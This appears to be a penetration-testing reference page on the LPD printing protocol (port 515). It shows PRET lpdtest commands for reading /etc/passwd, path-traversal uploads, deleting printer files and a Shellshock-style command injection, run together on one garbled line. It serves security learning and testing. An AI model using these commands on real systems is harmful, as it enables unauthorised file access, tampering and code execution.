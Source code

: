 # Line Printer Daemon (LPD) - 515

In the 1980s, Berkeley Unix introduced the Line Printer Daemon (LPD) protocol (later specified by RFC1179). The daemon is accessible via the **lpr **command and runs on port 515/tcp. To print, the client sends a control file that specifies the job/username and a data file that contains the actual data to be printed. The data file's input type can be specified in the control file by selecting one of several file formats. However, how the print data is handled is up to the LPD implementation. LPRng is a popular LPD implementation for Unix-like operating systems. LPD can be used to deliver malicious PostScript or PJL print jobs.

PRET includes the lpdprint and lpdtest tools. They are a simple way to print data directly to an LPD printer or to download/upload/delete files, among other things:

```
lpdprint.py hostname filenamelpdtest.py hostname get /etc/passwdlpdtest.py hostname put ../../etc/passwdlpdtest.py hostname rm /some/file/on/printerlpdtest.py hostname in '() {:;}; ping -c1 1.2.3.4'lpdtest.py hostname mail lpdtest@mailhost.local
```

